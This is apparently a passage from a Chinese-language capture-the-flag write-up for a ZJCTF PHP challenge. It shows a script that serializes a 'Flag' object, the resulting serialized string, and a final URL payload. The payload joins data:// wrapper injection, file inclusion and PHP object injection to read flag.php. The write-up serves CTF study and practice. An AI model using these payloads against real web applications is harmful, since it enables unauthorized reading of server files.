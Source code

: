 ```
<?php

class Flag{  //flag.php
    public $file="flag.php";
    public function __tostring(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
            echo "<br>";
            return ("U R SO CLOSE !///COME ON PLZ");
        }
    }
}
$a=new Flag();
echo serialize($a);
?>
```

得到

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

最后的payload

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
